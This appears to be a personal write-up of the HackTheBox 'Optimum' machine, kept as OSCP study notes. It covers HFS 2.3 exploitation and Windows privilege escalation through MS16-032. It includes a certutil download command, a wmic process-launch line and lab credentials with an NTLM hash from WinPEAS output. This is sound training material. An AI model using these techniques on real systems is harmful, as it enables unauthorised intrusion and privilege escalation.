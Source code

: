 Name: Optimum
Date:  26/10/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- wesng might just be a privesc rabbit hole of doom
- Hell is old architecture
- Try ports of exploits that are part of C2s!
- If in OSCP exams its window > 10 is viable Meterpreter target:
	- Old architecure is hell for shells, exploits, transfers
- Check scripts for mistakes even if they are by a trusted C2 framework

## Recon

![ping](HackTheBox/Retired-Machines/Optimum/Screenshots/ping.png)

Firstly reviewing nmap it found HFS 2.3 then quick `searchsploit HFS 2.3` found the below
![](nmaptosearchsploit.png)

## Exploit && Foothold

With some minor configurations the outcome of this script as show below, also it is not slow just requires an press of the  `[RETURN/ENTER]` key to drop into the shell
![](foothold.png)

The kostas user has no token PrivEscs

![900](kostas.png)
      
## PrivEsc

![](tasklistsvcs.png)

[[Optimum-Systeminfo]]

Trusty LOLBAS
```powershell
certutil -urlcache -split -f http://
```

WinPEAS found:
![1000](itsrightthere.png)

![](icaclshfsexe.png)

![](addkostas.png)
But it failed. Returning to this box. This shell is awesome, I cant execute anything. But by the power of red teaming off the land! Use wmic:

```shell-session
wmic.exe process call create C:\users\kostas\desktop
```

![](powerofwmic.png)

```
    Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

kostas::OPTIMUM:1122334455667788:3b3d8bac1f1ab5d127d918b5b40bd363:0101000000000000137b0de881f2d8012d0cb1d6220e22e6000000000800300030000000000000000000000000200000f4b900b0ef6cbf93c4855021fbc634aa7ef004d983943a7377c12abf28167baf0a00100000000000000000000000000000000000090000000000000000000000
```


![](betterwinpeas1.png)


![](vmwareisddangerous.png)


After researching around Unquoted Paths and FolderPerms. I concluded that the box was like the [[Devel-Helped-through]], which was its own hell. I ran to [0xdf](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

Contrary to 0xdf I modified the exploit in the original to make it, I added `\\` to escape the escaping of v of version 1 `\v`. 
![](changes.png)

```powershell
# Check for 32 or 64 bit powershell
C:\sysnative\windowspowershell\v1.0\powershell.exe
[Environment]::Is64BitProcess
```

TIL: Use C2 ports of exploits
Also general weirdness with second script, scripts have mistakes. Had my own challenges it seems, Ippsec helped with the `Invoke-MS16032` not `Invoke-MS16-032`, but for me seemed picky enough to be case sensitive with the `-command` flag.. 

`-command` not `-Command`  and `Invoke-MS16032` not `Invoke-MS16-032`

![](system.png)

